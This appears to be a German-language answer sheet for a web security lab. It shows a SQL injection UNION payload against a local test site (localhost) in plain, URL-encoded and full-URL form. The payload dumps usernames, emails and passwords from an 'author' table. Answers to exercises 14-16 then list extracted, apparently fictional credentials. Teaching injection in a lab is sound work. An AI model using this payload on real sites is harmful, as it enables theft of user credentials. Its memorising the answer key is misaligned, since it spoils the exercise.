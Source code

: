 Verschaffen Sie sich Zugriff auf die Login-Daten der Autoren der Website.

' AND 1=0 UNION SELECT 0,0,0,0,0,(SELECT GROUP_CONCAT(CONCAT_WS(' - ', id, username, name, email, password)) FROM author),0;--
'%20AND%201%3D0%20UNION%20SELECT%200%2C0%2C0%2C0%2C0%2C(SELECT%20GROUP_CONCAT(CONCAT_WS('%20-%20'%2C%20id%2C%20username%2C%20name%2C%20email%2C%20password))%20FROM%20author)%2C0%3B--%20
http://localhost:82/index.php?id=2%27%20AND%201%3D0%20UNION%20SELECT%200%2C0%2C0%2C0%2C0%2C(SELECT%20GROUP_CONCAT(CONCAT_WS(%27%20-%20%27%2C%20id%2C%20username%2C%20name%2C%20email%2C%20password))%20FROM%20author)%2C0%3B--%20

<h6>14) Geben Sie die E-Mail Adresse und das Passwort von <i>modellbauklaus</i> an.</h6>

>>E-Mail Adresse<<
=== klaus@rc-modellbau.de

>>Passwort<<
=== RoterBaron

<h6>15) Geben Sie die E-Mail Adresse und das Passwort von <i>rüdiger</i> an.</h6>

>>E-Mail Adresse<<
=== rüdiger@hot-ballon.de

>>Passwort<<
=== 1profi

<h6>16) Geben Sie die E-Mail Adresse und das Passwort von <i>paulaner</i> an.</h6>

>>E-Mail Adresse<<
=== paulaner@truestory.com

>>Passwort<<
=== fakestory